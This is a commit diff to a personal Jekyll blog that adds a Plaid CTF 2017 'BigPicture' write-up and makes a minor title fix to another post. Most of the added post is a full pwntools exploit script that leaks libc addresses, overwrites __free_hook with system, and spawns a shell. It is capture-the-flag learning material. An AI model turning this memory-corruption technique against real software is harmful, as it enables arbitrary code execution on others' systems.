

Before and after one commit to Vasco-jofra/Vasco-jofra.github.io, a Jekyll site: the page built from index.html, in a window 1280 px wide. Shown: the whole page, without its empty margins (158-1121 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; the list of posts is cut into pages by our own code; before the commit the page ends 903 px from its top, so only the background shows below that; some of the changed lines change nothing that is shown.

Commit message:
big picture

````diff
--- /dev/null
+++ b/_posts/2017-04-25-BigPicture.md
@@ -0,0 +1,127 @@
+---
+title: "BigPicture | Plaid CTF 2017"
+categories: ["pwn"]
+tags: []
+Points: 200
+Solves: 67
+---
+
+I wasn't able to solve this challenge during the CTF, but I decided read a writeup and try again! In this post I'll share what I learned.
+
+## Solution summary
+
+I based my exploit on this [bigpicture writeup](https://amritabi0s.wordpress.com/2017/04/24/plaid-ctf-2017-bigpicture-write-up). The write up explains everything in more detail, go read it!
+
+The exploit steps were:
+1. Find the `libc offset` in relation to our buffer
+2. Find the `libc base` address by leaking some value in the libc data section which contains a pointer to somewhere else in the libc (I used `__memalign_hook`)
+3. Overwrite `__free_hook` with a pointer to `system`
+4. Write `"/bin/sh\x00"` in the buffer (since the free is going to be called on that buffer)
+5. Execute the `quit` command and the `free(buf)` call should instead call `system("/bin/sh")` and spawn a shell
+
+
+## What I learned for the next CTF
+1. If we allocate a large enough chunk, that chunk will not be on the heap section, but instead the malloc will call `mmap` and (at least for this case) the address will be **relative to the LIBC_BASE address**, allowing you to find where the libc is in relation to the chunk allocated.
+2. I also learned that you can find the libc base address by looking at some pointers in the libc data section, (I assumed it was possible, but had never tried it before)
+3. As I had previously learned the libc hooks (malloc_hook, free_hook..) are a great way to redirect code execution if you find a way to overwrite them
+
+# Exploit
+```python
+#!/usr/bin/python
+from pwn import *
+
+TESTING_LOCAL = True
+
+if TESTING_LOCAL:
+    # Libc offsets
+    __memalign_hook_OFFSET = 0x398ae0
+    __free_hook_OFFSET     = 0x39a788
+    SYSTEM_OFFSET          = 0x3f460
+
+    # Ofsets related to the buffer
+    LIBC_OFFSET_TO_BUF = -0x497010
+    __free_hook_OFFSET_TO_BUF     = LIBC_OFFSET_TO_BUF + __free_hook_OFFSET
+    __memalign_hook_OFFSET_TO_BUF = LIBC_OFFSET_TO_BUF + __memalign_hook_OFFSET
+    __memalign_hook_content_TO_LIBC_OFFSET = 0x7c240
+else:
+    pass
+
+def go():
+    if TESTING_LOCAL == True:
+        p = process("./bigpicture")
+    else:
+        p = remote("bigpicture.chal.pwning.xxx", 420)
+
+    WIDTH  = 1024
+    HEIGHT = 1024
+    p.sendlineafter("big? ", "%d x %d" % (WIDTH, HEIGHT))
+
+    def get_val(offset):
+        return [offset/HEIGHT, offset%HEIGHT]
+
+    def plot(x, y, c):
+        p.sendlineafter(">", " %d , %d , %c " % (x, y, c), )
+
+    def leak_byte(offset):
+        val = get_val(offset)
+        plot(val[0], val[1], "\x00")
+        res = p.recvuntil("\n", timeout = 2)
+        if "overwriting" not in res:
+            return "\x00"
+        else:
+            return res.split("overwriting ")[1].split("!")[0]
+
+    def write_byte(offset, c):
+        val = get_val(offset)
+        plot(val[0], val[1], c)
+
+    # Check if the offset is write, by checking whether we find the string "ELF" at that location
+    check_if_we_got_libc = leak_byte(LIBC_OFFSET_TO_BUF+1) + leak_byte(LIBC_OFFSET_TO_BUF+2) + leak_byte(LIBC_OFFSET_TO_BUF+3)
+    assert check_if_we_got_libc == "ELF"
+    log.success("Found libc base at offset: %s" % hex(LIBC_OFFSET_TO_BUF))
+
+    leaked_memallign_content = leak_byte(__memalign_hook_OFFSET_TO_BUF+0) + leak_byte(__memalign_hook_OFFSET_TO_BUF+1) + \
+                               leak_byte(__memalign_hook_OFFSET_TO_BUF+2) + leak_byte(__memalign_hook_OFFSET_TO_BUF+3) + \
+                               leak_byte(__memalign_hook_OFFSET_TO_BUF+4) + leak_byte(__memalign_hook_OFFSET_TO_BUF+5)
+    leaked_memallign_content = u64(leaked_memallign_content.ljust(8, "\x00"))
+    LIBC_BASE = leaked_memallign_content - __memalign_hook_content_TO_LIBC_OFFSET
+
+    # Leak meamallign_hook content so we can locate the LIBC_BASE
+    log.info("Found memallign_hook content equals " + hex(leaked_memallign_content))
+    assert LIBC_BASE & 0xfff == 0 # Ensure the last 12bits are 0. If not it surely is not the libc base.
+    log.success("Found libc base at " + hex(LIBC_BASE))
+
+    SYSTEM_ADDR = LIBC_BASE + SYSTEM_OFFSET
+    log.info("SYSTEM at: " + hex(SYSTEM_ADDR))
+
+    # Ovewrite the __free_hook with system and confirm it worked
+    SYSTEM_ADDR_packed = p64(SYSTEM_ADDR)
+    write_byte(__free_hook_OFFSET_TO_BUF+0, SYSTEM_ADDR_packed[0])
+    write_byte(__free_hook_OFFSET_TO_BUF+1, SYSTEM_ADDR_packed[1])
+    write_byte(__free_hook_OFFSET_TO_BUF+2, SYSTEM_ADDR_packed[2])
+    write_byte(__free_hook_OFFSET_TO_BUF+3, SYSTEM_ADDR_packed[3])
+    write_byte(__free_hook_OFFSET_TO_BUF+4, SYSTEM_ADDR_packed[4])
+    write_byte(__free_hook_OFFSET_TO_BUF+5, SYSTEM_ADDR_packed[5])
+    write_byte(__free_hook_OFFSET_TO_BUF+6, SYSTEM_ADDR_packed[6])
+    write_byte(__free_hook_OFFSET_TO_BUF+7, SYSTEM_ADDR_packed[7])
+
+    leaked_free_hook = leak_byte(__free_hook_OFFSET_TO_BUF+0) + leak_byte(__free_hook_OFFSET_TO_BUF+1) + \
+                       leak_byte(__free_hook_OFFSET_TO_BUF+2) + leak_byte(__free_hook_OFFSET_TO_BUF+3) + \
+                       leak_byte(__free_hook_OFFSET_TO_BUF+4) + leak_byte(__free_hook_OFFSET_TO_BUF+5)
+    leaked_free_hook = u64(leaked_free_hook.ljust(8, "\x00"))
+    assert leaked_free_hook == SYSTEM_ADDR
+    log.success("Successfully written free_hook with system's addr")
+
+    for i, c in enumerate("/bin/sh"):
+        write_byte(i, c)
+
+    p.sendline("quit")
+    p.clean()
+    p.sendline("echo HELLO")
+    assert p.recvuntil("HELLO") == "HELLO"
+    log.success("We got a shell ;)!")
+
+    p.interactive()
+
+go()
+```
--- a/_posts/2017-11-06-EasyToSay.md
+++ b/_posts/2017-11-06-EasyToSay.md
@@ -1,5 +1,5 @@
 ---
-title: "EasyToSay | Hitcon2017"
+title: "EasyToSay | Hitcon 2017"
 categories: ["pwn"]
 tags: ["shellcode"]
 Points: 144
````
